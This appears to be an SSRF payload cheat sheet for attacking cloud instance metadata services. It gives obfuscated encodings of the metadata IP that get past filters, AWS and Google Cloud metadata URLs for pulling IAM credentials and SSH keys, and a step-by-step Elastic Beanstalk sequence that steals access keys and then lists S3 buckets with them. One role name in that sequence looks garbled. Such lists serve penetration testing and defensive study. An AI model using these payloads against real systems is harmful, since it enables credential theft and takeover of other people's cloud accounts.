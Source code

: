 **Alternate IP encoding**

```http
http://425.510.425.510/ Dotted decimal with overflow
http://2852039166/ Dotless decimal
http://7147006462/ Dotless decimal with overflow
http://0xA9.0xFE.0xA9.0xFE/ Dotted hexadecimal
http://0xA9FEA9FE/ Dotless hexadecimal
http://0x41414141A9FEA9FE/ Dotless hexadecimal with overflow
http://0251.0376.0251.0376/ Dotted octal
http://0251.00376.000251.0000376/ Dotted octal with padding
```

**More urls to include**

```http
http://169.254.169.254/latest/user-data
http://169.254.169.254/latest/user-data/iam/security-credentials/[ROLE NAME]
http://169.254.169.254/latest/meta-data/
http://169.254.169.254/latest/meta-data/iam/security-credentials/[ROLE NAME]
http://169.254.169.254/latest/meta-data/iam/security-credentials/PhotonInstance
http://169.254.169.254/latest/meta-data/ami-id
http://169.254.169.254/latest/meta-data/reservation-id
http://169.254.169.254/latest/meta-data/hostname
http://169.254.169.254/latest/meta-data/public-keys/
http://169.254.169.254/latest/meta-data/public-keys/0/openssh-key
http://169.254.169.254/latest/meta-data/public-keys/[ID]/openssh-key
http://169.254.169.254/latest/meta-data/iam/security-credentials/dummy
http://169.254.169.254/latest/meta-data/iam/security-credentials/s3access
http://169.254.169.254/latest/dynamic/instance-identity/document
```

E.g: Jira SSRF leading to AWS info disclosure — `https://help.redacted.com/plugins/servlet/oauth/users/icon-uri?consumerUri=http://169.254.169.254/metadata/v1/maintenance`

E.g2: Flaws challenge — `http://4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud/proxy/169.254.169.254/latest/meta-data/iam/security-credentials/flaws/`

**SSRF URL for AWS Elastic Beanstalk**

We retrieve the accountId and region from the API.

```http
http://169.254.169.254/latest/dynamic/instance-identity/document
http://169.254.169.254/latest/meta-data/iam/security-credentials/aws-elasticbeanorastalk-ec2-role
We then retrieve the AccessKeyId, SecretAccessKey, and Token from the API.
http://169.254.169.254/latest/meta-data/iam/security-credentials/aws-elasticbeanorastalk-ec2-role
```
<p align="center"/><img src="https://miro.medium.com/max/875/0*4OG-tRUNhpBK96cL">

Then we use the credentials with `aws s3 ls s3://elasticbeanstalk-us-east-2-[ACCOUNT_ID]/.`

**SSRF URL for Google Cloud**

Requires the header `“Metadata-Flavor: Google”` or `“X-Google-Metadata-Request: True”`

```http
http://169.254.169.254/computeMetadata/v1/
http://metadata.google.internal/computeMetadata/v1/
http://metadata/computeMetadata/v1/
http://metadata.google.internal/computeMetadata/v1/instance/hostname
http://metadata.google.internal/computeMetadata/v1/instance/id
http://metadata.google.internal/computeMetadata/v1/project/project-id
```
